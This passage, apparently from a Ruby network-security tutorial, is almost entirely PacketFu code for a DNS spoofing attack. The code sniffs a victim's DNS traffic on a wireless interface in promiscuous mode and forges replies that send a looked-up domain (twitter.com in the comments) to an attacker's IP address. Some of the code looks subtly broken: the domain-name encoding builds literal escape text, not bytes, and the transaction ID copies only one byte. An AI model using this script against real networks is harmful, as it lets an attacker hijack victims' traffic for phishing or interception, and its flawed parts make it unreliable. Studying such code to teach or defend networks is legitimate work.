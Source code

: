 ```ruby
  response.eth_daddr = packet.eth_saddr           # the victim's MAC address
  response.payload   = packet.payload[0,1]        # Transaction ID
  response.payload  += "\x81\x80"                 # Flags: Reply code: No error (0)
  response.payload  += "\x00\x01"                 # Question: 1
  response.payload  += "\x00\x00"                 # Answer RRs: 0
  response.payload  += "\x00\x00"                 # Authority RRs: 0
  response.payload  += "\x00\x00"                 # Additional RRs: 0
  response.payload  += attackerdomain_name.split('.').map do |section| # Queries | Name: , Convert domain to DNS style(the opposite of readable method)
    [section.size.chr, section.chars.map {|c| '\x%x' % c.ord}.join]
  end.join + "\x00"
  response.payload  += "\x00\x01"                 # Queries | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Queries | Class: IN (0x0001)
  response.payload  += "\xc0\x0c"                 # Answer | Name: twitter.com
  response.payload  += "\x00\x01"                 # Answer | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Answer | Class: IN (0x0001)
  response.payload  += "\x00\x00\x00\x25"         # Answer | Time to live: 37 seconds
  response.payload  += "\x00\x04"                 # Answer | Data length: 4
  response.payload  += attackerdomain_ip          # Answer | Addr
  response.recalc                                 # Calculate the packet
  response.to_w(response.iface)                   # Send the packet through our interface
end

filter = "udp and port 53 and host " + "192.168.0.21"
@capture = Capture.new(:iface => "wlan0", :start => true, :promisc => true, :filter => filter, :save => true)
# Find the DNS packets
@capture.stream.each do |pkt|
  # Make sure we can parse the packet; if we can, parse it
  if UDPPacket.can_parse?(pkt)
    packet = Packet.parse(pkt)

    # Get the offset of the query type: (request=\x01\x00, response=\x81\x80)
    dns_query = packet.payload[2..3].to_s

    # Make sure we have a dns query packet
    if dns_query == "\x01\x00"
      # Get the domain name into a readable format
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      # Ignore non query packet
      next if domain_name.nil?
      puts "DNS request for: " + fqdn

    end
    # Make sure we have a dns reply packet
    if dns_query == "\x81\x80"
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      puts "[*] Start Spoofing: " + fqdn
      spoof_response packet, domain_name
    end

  end
end 

```


[1]: ../files/module03/dns_spoofing_dns-req_res.pcap.pcapng
[^1]: [DNS Spoofing Using PacketFu](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/)
[^2]: [Manipulating The Network with PacketFu](http://tuftsdev.github.io/DefenseOfTheDarkArts/assignments/manipulatingthenetworkwithpacketfu-110314111058-phpapp01.pdf)
[^3]: [DNS Header Flags](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-12)
[^4]: [DNS Lookups Types](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-4)